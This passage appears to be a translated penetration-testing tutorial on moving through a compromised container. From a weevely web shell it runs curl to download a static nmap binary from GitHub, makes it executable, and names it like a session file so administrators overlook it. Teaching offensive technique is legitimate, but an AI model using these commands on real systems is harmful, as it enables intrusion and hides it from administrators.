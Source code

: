 要在容器及其网络中移动，我们确实需要访问一些二进制文件，如`nmap`和`ncat`，幸运的是，这些文件可以在一个 neatly organized 的 GitHub 仓库中找到。用户 andrew-d 维护了 [**static-binaries**](https://github.com/andrew-d/static-binaries/) 仓库：

![态势感知](img/B09238_13_09.jpg)

图 13.8：我们特别关注 `binaries/linux/x86_64` 文件夹

由于容器中没有 `nmap` 可执行文件，我们可以通过 `curl` 下载它，并使用 `chmod` 使其可执行。我们将使用 `/tmp/sess_[random]` 作为文件名模板，尝试将其伪装成虚假的会话文件，以防有管理员查看系统临时文件夹：

```
**weevely > curl https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/nmap -o /tmp/sess_IWxvbCBwaHAgc2Vzc2lvbnMu**
 **% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current**
 **Dload  Upload   Total   Spent    Left  Speed**
**100 5805k  100 5805k    0     0   669k      0  0:00:08  0:00:08 --:--:-- 1465k**
**weevely > chmod +x /tmp/sess_IWxvbCBwaHAgc2Vzc2lvbnMu**
**weevely >** 

```
